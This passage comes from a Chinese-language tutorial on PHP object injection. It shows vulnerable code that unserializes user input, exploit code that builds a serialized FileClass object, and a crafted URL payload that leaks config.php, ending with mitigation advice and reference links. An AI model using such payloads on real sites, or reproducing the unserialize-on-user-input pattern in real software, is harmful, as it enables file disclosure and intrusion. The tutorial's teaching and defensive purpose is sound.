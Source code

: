```php
    // 用户可控
    
    $obj = unserialize($_GET['usr_serialized']);
    
    // 输出 __toString
    
    echo $obj;
    
    ?>
```

so,我们构造url

    script.php?usr_serialized=O:4:"User":2:{s:3:"age";i:20;s:4:"name";s:4:"John”;}

再想想，如果我们用序列化调用 FileClass呢

我们创建利用代码

```php
    <?php
    $fileobj = new FileClass();
    $fileobj->filename = 'config.php';echo serialize($fileobj);
    ?>
```

接着用生成的exp注入url

    script.php?usr_serialized=O:9:"FileClass":1:{s:8:"filename";s:10:"config.php”;}

接着网页会输出 config.php的源代码

```php
    <?php
    $private_data = 'MAGIC';
    ?>
```

ps:我希望这让你能够理解。

## 0×07 其他的利用方法

可能其他的一些magic函数海存在利用点：比如`__call` 会在对象调用不存在的函数时调用，`__get` 和 `__set`会在对象尝试访问一些不存在的类，变量等等时调用。

不过需要注意的是，利用场景不限于magic函数，也有一些方式可以在一半的函数中利用这个漏洞，打个比方，一个模块可能定义了一个叫get的函数进行一些敏感的操作，比如访问数据库，这就可能造成sql注入，取决于函数本身的操作。

唯一的一个技术难点在于，注入的类必须在注入点所在的地方，不过一些模块或者脚本会使用“autoload”的功能，具体可以在这里了解

## 0×08 如何利用或者避免这个漏洞

别在任何用户可控的地方使用“unserialize”，可以考虑“json_decode“

## 0×09 结论

虽然很难找到而且很难利用，但是这真的真的很严重，可以导致各种各样的漏洞。


[0]: http://www.codeceo.com/article/php-object-injection.html
[1]: http://www.codeceo.com/article/category/develop/web
[2]: http://www.codeceo.com/article/category/develop
[3]: http://www.codeceo.com/article/category/pick
[4]: http://www.codeceo.com/article/php-object-injection.html#comments
[5]: https://wujunze.com/php_class_inject.jsp
[6]: https://vagosec.org/2013/09/wordpress-php-object-injection/
[7]: https://websec.wordpress.com/2014/12/08/magento-1-9-0-1-poi/
[8]: http://www.exploit-db.com/exploits/25087/
[9]: http://www.exploit-db.com/exploits/22398/
[10]: http://static.codeceo.com/images/2015/03/logo-php-2.jpg
[11]: http://www.codeceo.com/article/magic-javascript-ui.html